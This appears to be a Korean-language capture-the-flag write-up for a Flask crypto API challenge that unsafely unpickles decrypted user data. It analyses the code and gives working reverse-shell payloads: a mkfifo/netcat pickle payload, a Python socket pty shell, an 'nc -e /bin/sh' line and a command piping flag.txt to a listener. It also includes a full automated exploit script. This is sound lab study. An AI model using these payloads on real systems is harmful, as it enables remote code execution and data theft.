






# **Pickled-Crypti-Vault **

---

## 문제 환경 구성

---

```docker
docker build -t crypto-pickles .
docker run -p 5000:5000 <IMAGE ID>
```

## Description

---

```
Pickles and crypto, what a concept!
```

### 초기 화면


## Background

---

- pickle 모듈 원격 코드 실행(RCE) 취약점
    
    https://davidhamann.de/2020/04/05/exploiting-python-pickle/
    
    https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/
    
    [tripple-whammy(25.05.17)](https://www.notion.so/tripple-whammy-25-05-17-1e6bdeddcfd880e5abb0ef6cf3dfef42?pvs=21) 
    
- JWT
    
    [random(25.05.17)](https://www.notion.so/random-25-05-17-1f2bdeddcfd880e5aba3cca2f8a3452e?pvs=21) 
    
- 파이썬 데코레이터 함수
    
    [cybernotes(25.06.26)](https://www.notion.so/cybernotes-25-06-26-21bbdeddcfd880afb2d5d2031f74f8df?pvs=21) 
    

### reverse shell

- 피해자를 속여 원격 컴퓨터가 공격자의 컴퓨터에 연결되도록 하는 사이버 공격의 일종
    - 공격자의 쉘
        
        ```bash
        nc -lvnp <PORT>
        ```
        
        | **옵션** | **의미** |
        | --- | --- |
        | `-l` | **Listen**: 연결을 수신하는 서버 모드로 실행 |
        | `-v` | **Verbose**: 자세한 출력 (디버깅에 유용) |
        | `-n` | **Numeric-only**: DNS 조회 없이 IP 주소 그대로 사용 |
        | `-p` | **Port**: 수신할 포트 번호 지정 |
    - 피해자의 쉘
        
        ```bash
        nc <공격자 IP> <PORT> -e /bin/sh
        ```
        

## 코드분석

---

### 환경 설정

```python
from flask import Flask, request
from flask_restful import Resource, Api 
import jwt, os, base64, pickle 
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP, AES
from Crypto.Random import get_random_bytes
from Crypto.Hash import SHA256 
from Crypto.Util.Padding import pad, unpad 
from functools import wraps 
app = Flask(__name__)
api = Api(app)

JWT_SECRET = os.urandom(32)   # JWT 비밀 키 생성, 32바이트 랜덤 값
users = {}

"""
코드들이 있던 자리
"""
    
api.add_resource(Register, '/apiv1/register') 
api.add_resource(Login, '/apiv1/login')
api.add_resource(UploadKey, '/apiv1/uploadkey')
api.add_resource(Encrypt, '/apiv1/encrypt')
api.add_resource(Decrypt, '/apiv1/decrypt')

if __name__ == '__main__':
    app.run(debug=True)

```

### class: db_cipher

```python
class db_cipher: # AEB 암호화 방식 사용
    def __init__(self, key):
        self.key = key # AES 암호화에 사용할 키
        self.bs = AES.block_size # 블록 크기 (AES는 16바이트 블록 크기를 사용)
        self.pad = lambda data: pad(data, self.bs) # 데이터 패딩 함수
        self.unpad = lambda data: unpad(data, self.bs) # 데이터 언패딩 함수
    
    def encrypt(self, raw): # 데이터 암호화 함수
        iv = get_random_bytes(self.bs) # 초기화 벡터 생성
        cipher = AES.new(self.key, AES.MODE_CBC, iv) # AES CBC 모드로 암호화 객체 생성
        data = self.pad(raw) # 데이터 패딩
        return base64.urlsafe_b64encode(iv + cipher.encrypt(data)).decode() # 암호화된 데이터 반환 (IV + 암호문)
    
    def decrypt(self, enc):
        data = base64.urlsafe_b64decode(enc.encode())
        iv = data[:self.bs]
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.unpad(cipher.decrypt(data[self.bs:]))
```

### 함수: login_required()

```python
def login_required(func):
    @wraps(func)
    def wrapper(*args, **kwargs): # 데코레이터 함수
        token = request.headers.get('Authorization') # Authorization 헤더에서 토큰 가져오기
        if not token: # 토큰이 없으면 에러 반환
            return {'message': 'Token is missing'}, 400

        try:
            payload = jwt.decode(token, JWT_SECRET, algorithms=['HS256'])
            username = payload['username']
            if username not in users:
                return {'message': 'Invalid token'}, 400
        except jwt.InvalidTokenError:
            return {'message': 'Invalid token'}, 400
        return func(*args, **kwargs)
    return wrapper
```

### class: Register()

- 헤더를 양식이 모두 맞으면 `token` 발급
- 검사 내용
    - content type : json 인가
    - username, password 가 포함돼있나

```python
class Register(Resource): # 회원가입 

    def get(self):
        return {'message': 'Please use POST request'}, 400

    def post(self): 
        data = request.json #
        if not data:
            return {'message': 'JSON data is missing'}, 400 # JSON 데이터가 없으면 에러 반환
        username = data.get('username') #
        password = data.get('password') #
        if username in users:
            return {'message': 'Username already exists'}, 400 # 이미 존재하는 사용자 이름이면 에러 반환
        if not username or not password:
            return {'message': 'Username and password are required'}, 400 # 사용자 이름과 비밀번호가 없으면 에러 반환
        try:
            token = jwt.encode({'username': username}, JWT_SECRET, algorithm='HS256') # JWT 토큰 생성
        except:
            return {'message': 'Error generating token'}, 500 
        hashed_password = SHA256.new(password.encode()).digest() # 비밀번호 해싱
        users[username] = { # 사용자 정보를 딕셔너리에 저장
            'password': hashed_password, # 해싱된 비밀번호
            'token': token, # JWT 토큰 
            'keys': {'public': [], 'private': []}
            }
        return {'token': token}, 200 # token 반환
```

### class: Login()

- 로그인 확인
- 검사 내용
    - Authorization 헤더가 있나 && token이 들어있나
    - json 형식 데이터가 있나(password)

```python
class Login(Resource):

    def get(self):
        return {'message': 'Please use POST request'}, 400

    def post(self): # 
        token = request.headers.get('Authorization') # Authorization 헤더에서 토큰 가져오기
        if not token: 
            return {'message': 'Token is missing'}, 400
        try: # JWT 토큰 디코딩
            payload = jwt.decode(token, JWT_SECRET, algorithms=['HS256'])
            username = payload['username']
        except jwt.InvalidTokenError: # 토큰이 유효하지 않으면 에러 반환
            return {'message': 'Invalid token'}, 400
        data = request.json # JSON 데이터 가져오기
        if not data: # JSON 데이터가 없으면 에러 반환
            return {'message': 'JSON data is missing'}, 400

        password = data.get('password') # 비밀번호 가져오기
        hashed_password = SHA256.new(password.encode()).digest() # 비밀번호 해싱
        if not username or not password:
            return {'message': 'Username and password are required'}, 400
        
        if username not in users or hashed_password != users[username]['password']:
            return {'message': 'Invalid username or password'}, 400
        
        if token != users[username]['token']: # 토큰이 사용자 정보와 일치하지 않으면 에러 반환
            return {'message': 'Invalid token'}, 400
        return {'message': 'Login successful!', 'token': token}, 200 # 로그인 성공 시 메시지와 토큰 반환
```

### class: UploadKey()

- 공개 키 , 개인 키 업로드
- 검사 내용
    - Authorization 헤더가 있나 && token이 들어있나
    - json형식 데이터가 있나(`public_key, private_key, password` )
- 공개키를 base64 디코딩

```python
class UploadKey(Resource): #  업로드
    def get(self):
        return {'message': 'Please use POST request'}, 400
    
    @login_required # 로그인 상태 유지 users 배열에 username이 있는지
    def post(self): 
        token = request.headers.get('Authorization') 
        if not token:
            return {'message': 'Authentication token required.'}, 400
        
        try:
            payload = jwt.decode(token, JWT_SECRET, algorithms=['HS256']) # JWT 토큰 디코딩
            username = payload['username'] # 사용자 이름 가져오기
        except jwt.InvalidTokenError: # 토큰이 유효하지 않으면 에러 반환
            return {'message': 'Invalid token'}, 400
        
        data = request.json # JSON 데이터 가져오기
        if not data: # JSON 데이터가 없으면 에러 반환
            return {'message': 'JSON data is missing'}, 400
        
        pubkey_data = data.get('public_key') #
        privkey_data = data.get('private_key') # 

        password = data.get('password') #
        password_hash = SHA256.new(password.encode()).digest()
        if password_hash != users[username]['password']: # password 확인
            return {'message': 'Invalid password'}, 400

        if not all([pubkey_data, privkey_data, password]): # 공개키, 개인키, 비밀번호가 모두 있는지 확인
            return {'message': 'Key data and/or password is missing.'}, 400 # 없으면 에러 반환
        
        try:
            pubkey_bytes = base64.urlsafe_b64decode(pubkey_data) # 공개키를 base64로 디코딩
        except Exception as e:
            return {"message":f"Error: {e}. Make sure the keys are base64 encoded."}
        
        cipher = db_cipher(password_hash) # 비밀번호 해싱된 값을 사용하여 db_cipher 객체 생성
        try:
            privkey_bytes = base64.urlsafe_b64decode(privkey_data) # 개인키를 base64로 디코딩
        except Exception as e:
            return {"message":f"Error: {e}. Make sure the keys are base64 encoded."} 
        try:
            encrypted_privkey = cipher.encrypt(privkey_bytes) # 개인키를 암호화
        except Exception as e:
            return {'message': f'Error: {e} while encrypting key. Make sure the key is base64 encoded.'}, 400
        users[username]['keys']['public'].append(pubkey_bytes) # 공개키를 사용자 정보에 추가
        users[username]['keys']['private'].append(encrypted_privkey) # 암호화된 개인키를 사용자 정보에 추가
        return {'message': f'[#{username}#]$ - Key uploaded successfully", "public": "(b64){base64.urlsafe_b64encode(pubkey_bytes).decode()}', 'fingerprint': SHA256.new(pubkey_bytes).hexdigest()}, 200

```

### class: Encrypt()

- user가 보낸 데이터 encrypt

```python
class Encrypt(Resource): # 암호화

    def get(self):
        return {'message': 'Please use POST request'}, 400

    def post(self):
        token = request.headers.get('Authorization') # Authorization 헤더에서 토큰 가져오기
        data = request.json

        if not token: # Authorization 헤더에서 토큰 가져오기
            return {'message': 'Token is missing'}, 400
        try:
            payload = jwt.decode(token, JWT_SECRET, algorithms=['HS256']) # JWT 토큰 디코딩
            username = payload['username'] # 사용자 이름 가져오기
        except jwt.InvalidTokenError:
            return {'message': 'Invalid token'}, 400
        password = data.get('password')
        if not password:
            return {'message': 'Password is missing'}, 400
        password_hash = SHA256.new(password.encode()).digest() # 비밀번호 해싱
        if password_hash != users[username]['password']: 
            return {'message': 'Invalid password'}, 400
        
        public_key64 = data.get('public_key') # 공개키 가져오기
        if not public_key64: # 공개키가 없으면 에러 반환
            return {'message': '(Base64)Public key used for encryption is missing.'}, 400
        
        try:
            key_data = base64.urlsafe_b64decode(public_key64) # 공개키를 base64로 디코딩
            rsakey = RSA.import_key(key_data) # RSA 키 객체로 변환
        except Exception as e:
            return {"message":f"Error: {e}. Make sure the key is base64 encoded."}
        
        
        encoded_plaintext = data.get('data') # 암호화할 데이터 가져오기
        if not data:
            return {'message': 'data is missing'}, 400
        
        try:
            decoded_plaintext = base64.urlsafe_b64decode(encoded_plaintext) # 데이터를 base64로 디코딩
        except Exception as e:
            return {"message":f"Error: {e}. Make sure the data is base64 encoded."}
        
        try:
            cipher = PKCS1_OAEP.new(rsakey) # RSA 키를 사용하여 암호화 객체 생성
            encrypted_data = cipher.encrypt(decoded_plaintext) # 데이터를 암호화
        except Exception as e:
            return {'message': f'Encryption failed: {e}'}, 500 # 암호화 실패 시 에러 반환
        return {'encrypted_data': base64.urlsafe_b64encode(encrypted_data).decode()}, 200 # 암호화된 데이터 반환
```

### class: Decrypt()

- 데이터 decrypt

```python
class Decrypt(Resource):

    def get(self):
        return {'message': 'Please use POST request'}, 400

    @login_required
    def post(self):
        data = request.json
        token = request.headers.get('Authorization') # Authorization 헤더에서 토큰 가져오기
        if not token:
            return {'message': 'Authorization Token Header is missing'}, 400
        
        try:
            payload = jwt.decode(token, JWT_SECRET, algorithms=['HS256']) # JWT 토큰 디코딩
            username = payload['username'] # 사용자 이름 가져오기
        except jwt.InvalidTokenError: 
            return {'message': 'Invalid token'}, 400
        
        encrypted_data = data.get('encrypted_data') # 암호화된 데이터 가져오기
        print(encrypted_data) # 디버깅용 출력
        if not encrypted_data:
            return {'message': 'Encrypted data is missing'}, 400
        try:
            decoded_data = base64.urlsafe_b64decode(encrypted_data)
        except Exception as e:
            return {"message":f"Error: {e}. Make sure the data is base64 encoded."}, 400
        
        password = data.get('password')
        print(password)
        if not password:
            return {'message': 'Password is missing'}, 400
        password_hash = SHA256.new(password.encode()).digest() # 비밀번호 해싱
        print(password_hash) # 디버깅용 출력
        if password_hash != users[username]['password']:
            return {'message': 'Invalid password'}, 400
        try:
            cipher = db_cipher(password_hash)
            encrypted_private_key = users[username]['keys']['private'][0]
            decrypted_key_data = cipher.decrypt(encrypted_private_key)
        except Exception as e:
            return {'message': f'Error: {e} while decrypting key. Make sure you have uploaded a key pair.'}, 400
        
        try:
            private_key = RSA.import_key(decrypted_key_data)
        except Exception as e:
            return {"message":f"Error: {e} while importing key. Make sure you have uploaded a key pair."}
        try:
            rsacipher = PKCS1_OAEP.new(private_key) 
            decrypted_data = rsacipher.decrypt(decoded_data)
            try:
                jsonsafe_plaintext = pickle.loads(decrypted_data)
                resp = jsonsafe_plaintext
            except Exception as e:

                return {'decrypted_data': f'{decrypted_data}'}, 200
        except Exception as e:
            return {'decrypted_data': f'{e}'}, 400
        return {'decrypted_data': jsonsafe_plaintext}, 200
```

## 익스플로잇

---

### 취약점 분석

- class Decrypt() 에서 data를 `pickle.loads()` 를 통해 역직렬화 함
    
    역직렬화 부분에 악성 pickle 페이로드를 넣어 리버스 쉘 코드 실행
    

### 익스플로잇 단계

### 1. 회원가입

```
GET -> POST

Content-Type: application/json 추가

username, password 추가
```



- 토큰 획득

### 2. 로그인

```
GET -> POST

Content-Type: application/json 추가

Authorization: <token> 헤더 추가

password 추가
```



### 3. 키 업로드

```
GET -> POST

Content-Type: application/json 추가

Authorization: <token> 헤더 추가

public_key(base64 인코딩된), private_key(base64 인코딩된), password 추가
```



- public_key, private_key 등록

### 4. 암호화

```
GET -> POST

Content-Type: application/json 추가

Authorization: <token> 추가

public_key(base64 인코딩된), password, data(암호화 할, 직렬화 된, base64 인코딩 된) 추가
```



### 5. 복호화

```
GET -> POST

Content-Type: application/json 추가

Authorization: <token> 추가

public_key(base64 인코딩된), password, encrypted_data 추가
```





### 익스플로잇 코드

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.64.5 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled).decode())
```

- `mkfifo [옵션] 파일명`
    - FIFO(named pipe)생성
    - 리눅스 커널의 프로세스에서 프로세스간 통신을 위해 지원하는 특수한 파일
    - FIFO의 경로를 알고 있는 프로세스는 이 곳에 데이터를 쓰거나 읽으면서 다른 프로세스와 통신 가능

### write up 익스플로잇 코드

- 위 익스플로잇 과정을 한번에 처리하는 코드
- 코드
    
    ```python
    import requests
    import argparse
    import base64
    from Crypto.PublicKey import RSA
    from Crypto.Hash import SHA256
    import sys
    import pickle, os
    from Crypto.Cipher import PKCS1_OAEP
    from utils import print_colored
    # To get a reverse shell and get the flag:
    # python exp.py --action exploit --payload "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"LOCAL_IP\",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'"
    #
    #
    # or to get the flag directly:
    # start a netcat listener
    # `nc -lvnp PORT` 
    # python exploit.py --action exploit --payload "sh -c 'cat flag.txt | LOCAL_IP PORT'"
    #
    
    API_BASE_URL = 'http://<대상 IP:PORT>/apiv1'
    
    def register(username, password):
        payload = {'username': username, 'password': password}
        response = requests.post(f'{API_BASE_URL}/register', json=payload)
        token = None  
        if response.status_code == 200:  
            token = response.json().get('token') 
            hashed = SHA256.new(password.encode()).hexdigest()
            print_colored(f'Registration successful using {username}:{password}\nSHA256: {hashed}\nToken: {token}\n\n', 'green')
            print(f"Full response = {response.json()}")
        else:
            print('Registration failed.')
            print(response.json())
        return token
    
    def login(username, password, token):
        payload = {'username': username, 'password': password}
        headers = {'Authorization': token}
        response = requests.post(f'{API_BASE_URL}/login', json=payload, headers=headers)
        print(f"Sending to: {API_BASE_URL}/login\nusername={username}\ntoken={token}\n")
        if response.status_code == 200:
            token = response.json()['token']
            print_colored(f'Login successful. Token: {token}', 'bright_green')
        else:
            print_colored('Login failed.', 'red')
    
    def upload_key(token, password, key_file=None, privkeyfile=None):
        if key_file is None:
            key_file = './public_key.pem'
        if privkeyfile is None:
            privkeyfile = './private_key.pem'
        print_colored(f"Uploading keys: {key_file} and {privkeyfile}...\n", "bright_yellow")
        with open(key_file, 'rb') as file:
            key_data = file.read()
        with open(privkeyfile, "rb") as f:
            data= f.read()
        
        priv_key_base64 = base64.urlsafe_b64encode(data).decode()
        key_base64 = base64.urlsafe_b64encode(key_data).decode()
        payload = {
            'public_key': key_base64,
            'private_key':priv_key_base64, 
            'password':password
            }
        headers = {'Authorization': token}
        print_colored(f"Uploading keys: {API_BASE_URL}/uploadkey...\nkey = {key_base64}\n", "bright_yellow")
        response = requests.post(f'{API_BASE_URL}/uploadkey', json=payload, headers=headers)
        
        if response.status_code == 200:
    
            print_colored('Key uploaded successfully.\n', 'bright_green')
            print(response.json())
        else:
            print(response.json())
            print_colored('\nKey upload failed.\n', 'red')
    
    def encrypt( token,password, data, public_key=None):
    
        if public_key is None:
            public_key = './public_key.pem'
        print_colored(f"Initiating the encryption proces...Public Key file = {public_key}\n", "bright_yellow")
        with open(public_key, 'rb') as file:
            key_data = file.read()
        publicKey = base64.urlsafe_b64encode(key_data).decode()
        payload = {
            'data': data, 
            'public_key': publicKey, 
            'password':password
            }
        headers = {
            'Authorization': token
            }
        response = requests.post(f'{API_BASE_URL}/encrypt', json=payload, headers=headers)
        print_colored(f"Sending: {data} to be encrypted using token = {token}\n", "yellow")
        if response.status_code == 200:
            print_colored(f"Response = {response.content}", "bright_green")
            encrypted_data = response.json()['encrypted_data']
            print_colored(f'\nEncrypted data: {encrypted_data}', "magenta")
            return encrypted_data
        else:
            print_colored(response.content, "red")
            print_colored('Encryption failed.', 'red')
    
    def decrypt(token, encrypted_data, password):
        payload = {
            'encrypted_data': encrypted_data, 
            'password':password
            }
        headers = {'Authorization': token}
        response = requests.post(f'{API_BASE_URL}/decrypt', json=payload, headers=headers)
        if response.status_code == 200:
            print(response.content)
            decrypted_data = response.json()['decrypted_data']
            print_colored(f'Decrypted data: {decrypted_data}', 'green')
        else:
            print(response.content)
            print_colored(response.json(), "bright_red")
            print_colored('Decryption failed.', "blue")
    
    def generate_key(name):
        if name == None:
            name = 'RSA'
        key = RSA.generate(2048)
        private_key = key.export_key()
        public_key = key.publickey().export_key()
        with open(f'{name}_private_key.pem', 'wb') as file:
            file.write(private_key)
        with open(f'{name}_public_key.pem', 'wb') as file:
            file.write(public_key)
        print('Key pair generated successfully.')
    
    class exe(object):
        def __init__(self, cmd):
            self.cmd = cmd
    
        def __reduce__(self):
            return (os.system, (self.cmd,))
    
    import random, string
    def get_random_string(length):
        letters = string.ascii_lowercase
        result_str = ''.join(random.choice(letters) for i in range(length))
        print("Random string of length", length, "is:", result_str)
        return result_str
    
    def exploit(payload):
        """This function demonstrates how to exploit the API using a reverse shell payload"""
        user = 'user123' + get_random_string(5)
        password = 'password1'
        public_key='./public_key.pem'
        private_key = './private_key.pem'
        # Register a new user
        tokenval = register(user, password)
        # Login as the new user
        login(user, password, tokenval)
        # Upload key pair
        upload_key(tokenval, password, public_key, private_key)
    
        
        # Craft the payload using pickle
        instance = exe(payload)
        malicious_data = pickle.dumps(instance)
        maliciousEncoded = base64.urlsafe_b64encode(malicious_data).decode()
        
        # Encrypt the payload
        headers = {'Authorization': tokenval}
        # payload
        exploit = encrypt(tokenval, password, maliciousEncoded, public_key=public_key)
        tmpdata = base64.urlsafe_b64encode(b'testing testing 123').decode()
        print_colored(f"Sending a test payload {tmpdata}", "bg_bright_magenta")
        # sending tmpdata for encryption
        exp = encrypt(tokenval, password, tmpdata, public_key=public_key)
        # This is where RCE occurs.
        dec = decrypt(tokenval, exp, password)
        print_colored(f"Sending the exploit payload {exploit}", "bg_bright_magenta")
    
        print_colored(f"\n\nEncrypted tmpdata {exp}", "bg_bright_magenta")
        print_colored(f"Encrypted Payload = {exploit}\n", "bg_bright_magenta")
        # Setup payload
        payload = {
            'encrypted_data': exploit,
            'password': password,
        }
        response = requests.post(f'{API_BASE_URL}/decrypt', json=payload, headers=headers)
        if response.status_code == 200:
            print_colored('Exploit executed successfully.', 'green')
            print(response.json())
        else:
            print(response.json())
            print_colored('\nExploit execution failed.\n', 'red')
    
    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='API Client')
        parser.add_argument('--action', choices=['register', 'login', 'upload-key', 'encrypt', 'decrypt', 'exploit', 'generate-key'], required=True, help='Action to perform')
        parser.add_argument('--pubkey',  help='Path to the public key file')
        parser.add_argument('--privkey',  help='Path to the private key file')
        parser.add_argument('--password', help='Password to use if required.')
        parser.add_argument('--username', help='Username to use if required.')
        parser.add_argument('--login', help='Login with a username')
        parser.add_argument('--plaintext', help='Plaintext data to Encrypt.')
        parser.add_argument('--ciphertext', help='Decrypt ciphertext data.')
        parser.add_argument('--payload',help='Exploit the API')
        parser.add_argument('--token', help='Authentication token to provide as a Header as Authorization: {token} if required.')
        parser.add_argument('--kp-name', help='Name of the keypair for generate-key action')
    
        args, unknown = parser.parse_known_args()
        if args.action in ['register', 'login']:
            if not args.username:
                parser.error('--username <username> --password <password> is required for this action.')
            if not args.password:
                parser.error('--username <username> --password <password> is required for this action.')
        
        if args.action in ['login', 'upload-key', 'encrypt', 'decrypt']:
            if not args.token:
                parser.error('--token is required for this action.')
    
        if args.action == 'upload-key':
            if not args.pubkey or not args.privkey:
                parser.error('--pubkey <file> --privkey <file> --token <token> --password <password> are required for this action.')
            else:
                upload_key(args.token, args.password, args.pubkey, args.privkey)
    
        if args.action == 'encrypt':
            if not args.plaintext or not args.pubkey:
                parser.error('--plaintext <plaintext> --pubkey <file> --password <password> --token <token> is required for this action.')
            else:
                encrypt(args.token, args.password, base64.urlsafe_b64encode(args.plaintext.encode()).decode(), args.pubkey)
    
        if args.action == 'decrypt':
            if not args.ciphertext:
                parser.error("--ciphertext <data> --password <password> --username <username> --token <token> is required for the decrypt action.")
            else:
                decrypt(args.token, args.ciphertext, args.password)
        if args.action == 'exploit':
            if not args.payload:
                parser.error("--payload <Reverse-shell-payload> is required for the exploit action.")
            else:
                exploit(args.payload)
                print_colored(f"Exploit function called using {args.payload}", 'yellow')
        if args.action == 'register':
            if not args.username or not args.password:
                print_colored("python3 exploit.py --username <username> --password <password> are required for the register action.", 'red')
                sys.exit(1)
            else:
                val = register(args.username, args.password)
                print_colored(f"Registration function called using {args.username}:{args.password}", 'yellow')
    
        if args.action == 'login':
            if not args.username or not args.password:
                print_colored("python3 exploit.py --token <token> --username <username> --password <password> are required for the login action.", 'red')
                sys.exit(1)
            else:
                login(args.username, args.password, args.token)
                print_colored(f"Login function called using {args.username}:{args.password}:{args.token}", 'yellow')
    
    ```
    
- 실행 방법

```bash
방법 1
python exploit.py --action exploit --payload "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"LOCAL_IP\",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'"

방법 2
nc -lvnp PORT 
python exploit.py --action exploit --payload "sh -c 'cat flag.txt | nc LOCAL_IP PORT'"
```

## 핵심 정리 (본 문제에서 알아가야할 내용)

https://gtfobins.github.io/ ← 알면 좋을듯

리버스 쉘 vs 리모트 쉘